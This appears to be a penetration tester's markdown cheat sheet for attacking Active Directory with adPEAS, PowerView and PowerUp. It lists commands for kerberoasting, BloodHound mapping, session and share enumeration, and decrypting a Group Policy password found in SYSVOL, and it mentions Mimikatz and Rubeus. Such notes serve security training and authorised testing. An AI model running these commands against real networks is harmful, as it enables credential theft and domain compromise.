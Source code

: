 ### Active Directory
#### adPEAS.ps1
- `Import-Module .\adPEAS.ps1` then `Invoke adPEAS`
- And now you wait for things to happen.  It will begin searching for SPNs, kerberoastable accounts, and exporting a bunch of domain info to a .zip file for Bloodhound.  At this point I would look through the text output and see what you have.  if you have any kerberoastable accounts, try to crack the hashes with hashcat.  Not gonna put hashcat commands here bc I respect your intelligence.  Look for high value targets, see what your goal should be.
- The biggest thing is to transfer the .zip file back to your machine and import it into bloodhound.  Copy it to an SMB share if you can.  This can help visualize targets.
- Before launching bloodhound:`neo4j console`
- Then just drag the zip into bloodhound and mess with it.  I'm being vague here so you can figure some of this out.  Try a bunch of different things on the analysis tab, and see what you can find.  Look for domain admins, how to get there, and what accounts you have access to an what they are good for.  Learn to be comfortable with bloodhound.
- If adPEAS didn't get you any credentials or valuable info, you might need to run Rubeus or Mimikatz manually.  Or you might need to enumerate better, maybe theres something else you can find locally...Services, config files...backups?

#### PowerView.ps1
- `Import-Module .\PowerView.ps1`- (May Need "Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser")
- `Get-NetDomain`
- `Get-NetUser`
- `Get-NetUser | select cn` (common name)
- `Get-NetUser | select cn,pwdlastset,lastlogon`
- `Get-NetGroup | select cn`
- `Get-NetGroup "Fart Department" | select member` (get members of the Fart Department)
- `Get-NetComputer`
- `Get-ObjectAcl -Identity $user`
- `Get-ObjectAcl -Identity "<group>" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights`
	- (For example, pick different items to select)
- `Convert-SidToName $SID` - (like S-1-5-21-1987370470-658905705-1781884369-1103)
- `Find-LocalAdminAccess` -  (scanning to find local admin privileges for our user)
- `Get-NetSession -ComputerName $computerName`
	- (The permissions required to enumerate sessions with NetSessionEnum are defined in the SrvsvcSessionInfo registry key, which is located in the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity` hive.)
- `Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl`
- `Get-NetUser -SPN | select samaccountname,serviceprincipalname`
	- (Another way of enumerating SPNs is to let PowerView enumerate all the accounts in the domain. To obtain a clear list of SPNs, we can pipe the output into select and choose the samaccountname and serviceprincipalname attributes)
- `Find-DomainShare`
- `ls \\dc1.corp.com\sysvol\corp.com\` (for example)
- `cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml`
	- gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"

#### PowerUp.ps1
`Import-Module ./PowerUp.ps1`
- `. .\PowerUp.ps1`
Invoke-AllChecks
- Check Abuse Function which gives necessary command
